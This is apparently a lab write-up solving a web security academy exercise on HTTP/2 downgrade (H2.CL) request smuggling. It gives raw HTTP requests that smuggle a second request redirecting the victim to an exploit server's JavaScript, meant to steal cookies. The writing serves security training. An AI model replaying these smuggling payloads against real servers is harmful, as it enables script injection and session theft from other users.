






# H2.CL request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

---

step 1
intercept homepage to repeater change get to post request

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

userid=test
```



step 2
test payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```



step 3
add payload into resource



step 4
test payload from resource

```
GET /resources HTTP/2
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Length: 2

```



step 5
final payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```




